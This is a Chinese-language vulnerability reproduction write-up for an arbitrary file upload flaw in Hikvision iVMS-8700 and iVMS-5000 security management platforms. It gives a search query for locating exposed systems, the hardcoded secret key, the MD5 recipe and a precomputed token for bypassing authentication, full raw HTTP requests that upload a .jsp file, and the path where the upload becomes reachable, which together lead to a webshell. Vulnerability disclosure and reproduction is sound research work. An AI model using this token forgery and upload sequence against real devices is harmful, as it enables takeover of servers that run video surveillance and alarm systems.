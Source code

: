 # 海康威视iVMS-8700综合安防系统resourceOperations任意文件上传漏洞

# 一、漏洞简介
  海康威视iVMS集中监控应用管理平台，是以安全防范业务应用为导向，以视频图像应用为基础手段，综合视频监控、联网报警、智能分析、运维管理等多种安全防范应用系统，构建的多业务应用综合管理平台。攻击者通过获取密钥任意构造token，请求/resourceOperations/upload接口任意上传文件，导致获取服务器webshell权限，同时可远程进行恶意代码执行。

# 二、影响版本
+ 海康威视综合安防系统iVMS-5000
+ 海康威视综合安防系统 iVMS-8700

# 三、资产测绘
+ hunter：`web.body="/views/home/file/installPackage.rar"`

![1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0.png](./img/kDLBwyHdk2d3W6A_/1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0-110733.png)

+ 登录页面：

![1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111.png](./img/kDLBwyHdk2d3W6A_/1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111-046363.png)

# 四、漏洞复现
1. 访问`<font style="color:rgb(30, 107, 184);">/eps/api/resourceOperations/upload</font>`，发现token需要进行鉴权

```plain
POST /eps/api/resourceOperations/upload HTTP/1.1
Host: xx.xx.xx.xx
Accept-Language:zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryGEJwjlojPo
Cache-Control:max-age=0
Connection:close
Content-Length: 52

service=http://xx.xx.xx.xx/home/index.action
```

![1691851435344-ed7479f5-f1be-43e6-aa67-2b85e942d1fa.png](./img/kDLBwyHdk2d3W6A_/1691851435344-ed7479f5-f1be-43e6-aa67-2b85e942d1fa-589948.png)

2. 构造token绕过认证（内部机制：如果token值与请求url+secretkey的md5值相同就可以绕过认证）

secretkey是代码里写死的（默认值：secretKeyIbuilding）

token值需要进行MD5加密（32位大写）

组合：token=MD5(url+"secretKeyIbuilding")

```plain
http://xx.xx.xx.xx/eps/api/resourceOperations/uploadsecretKeyIbuilding
```

![1691851562964-59ab6b79-59b0-4427-aa22-0724519c2287.png](./img/kDLBwyHdk2d3W6A_/1691851562964-59ab6b79-59b0-4427-aa22-0724519c2287-296469.png)

3. 构造上传文件,上传成功且返回了resourceUuid值

```plain
POST /eps/api/resourceOperations/upload?token=DFB0D4034A82263A4DA9A37EB0DA687B HTTP/1.1
Host: xx.xx.xx.xx
Accept-Language:zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryGEJwjlojPo
Cache-Control:max-age=0
Connection:close
Content-Length: 178

------WebKitFormBoundaryGEJwjlojPo
Content-Disposition: form-data;name="fileUploader"; filename="test.jsp"
Content-Type: image/jpeg

1
------WebKitFormBoundaryGEJwjlojPo--
```

![1691851646699-a986ea3a-d25a-45cb-bf5a-d639f1702215.png](./img/kDLBwyHdk2d3W6A_/1691851646699-a986ea3a-d25a-45cb-bf5a-d639f1702215-549185.png)

4. 上传文件位置

```plain
http://xx.xx.xx.xx/eps/upload/resourceUuid的值.jsp
```

![1691851724492-57942c68-7154-45c5-b964-1cfb0b1fcb13.png](./img/kDLBwyHdk2d3W6A_/1691851724492-57942c68-7154-45c5-b964-1cfb0b1fcb13-384332.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dxm9gap6g8zry92h>